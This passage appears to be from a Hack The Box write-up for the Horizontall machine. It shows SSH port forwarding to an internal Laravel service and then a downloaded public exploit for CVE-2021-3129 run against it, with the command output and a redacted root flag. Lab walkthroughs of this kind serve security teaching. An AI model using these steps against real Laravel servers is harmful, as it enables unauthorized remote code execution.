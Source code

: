 ```
┌──(kali㉿kali)-[~/Desktop/cve/CVE-2019-19609]
└─$ ssh -i ~/.ssh/id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb              3 ⚙
Last login: Sun Sep 19 05:14:43 2021 from 10.10.14.24
$ 
```

![Laravel page](https://github.com/joelczk/writeups/blob/main/HTB/Images/horizontall/laravel_page.PNG)

### CVE-2021-3129 to obtain root flag
After some researching, we realize that laravel v8 is vulnerable to CVE-2021-3129. We will download the exploit script from [here](https://github.com/zhzyker/CVE-2021-3129) and modify it to read the root flag.

```
┌──(kali㉿kali)-[~/Desktop/CVE-2021-3129]
└─$ python3 exp.py http://127.0.0.1:8000/
[*] Try to use Laravel/RCE1 for exploitation.
[+]exploit:
[*] Laravel/RCE1 Result:


[*] Try to use Laravel/RCE2 for exploitation.
[+]exploit:
[*] Laravel/RCE2 Result:


[*] Try to use Laravel/RCE3 for exploitation.
[+]exploit:
[*] Laravel/RCE3 Result:


[*] Try to use Laravel/RCE4 for exploitation.
[+]exploit:
[*] Laravel/RCE4 Result:


[*] Try to use Laravel/RCE5 for exploitation.
[+]exploit:
[*] Laravel/RCE5 Result:

<Redacted system flag>
```
